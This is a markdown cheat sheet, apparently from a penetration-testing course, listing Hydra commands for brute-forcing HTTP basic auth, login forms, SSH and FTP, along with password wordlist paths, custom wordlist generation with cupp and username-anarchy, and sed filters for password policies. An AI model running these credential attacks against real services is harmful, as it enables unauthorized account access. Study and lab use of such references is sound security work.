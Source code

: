 # Hydra

|**Command**|**Description**|
|---|---|
|`hydra -h`|hydra help|
|`hydra -C wordlist.txt SERVER_IP -s PORT http-get /`|Basic Auth Brute Force - Combined Wordlist|
|`hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`|Basic Auth Brute Force - User/Pass Wordlists|
|`hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`|Login Form Brute Force - Static User, Pass Wordlist|
|`hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`|SSH Brute Force - User/Pass Wordlists|
|`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`|FTP Brute Force - Static User, Pass Wordlist|

# Wordlists

|**Command**|**Description**|
|---|---|
|`/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`|Default Passwords Wordlist|
|`/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`|Common Passwords Wordlist|
|`/opt/useful/SecLists/Usernames/Names/names.txt`|Common Names Wordlist|

# Misc

|**Command**|**Description**|
|---|---|
|`cupp -i`|Creating Custom Password Wordlist|
|`sed -ri '/^.{,7}$/d' william.txt`|Remove Passwords Shorter Than 8|
|``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``|Remove Passwords With No Special Chars|
|`sed -ri '/[0-9]+/!d' william.txt`|Remove Passwords With No Numbers|
|`./username-anarchy Bill Gates > bill.txt`|Generate Usernames List|
|`ssh b.gates@SERVER_IP -p PORT`|SSH to Server|
|`ftp 127.0.0.1`|FTP to Server|
|`su - user`|Switch to User|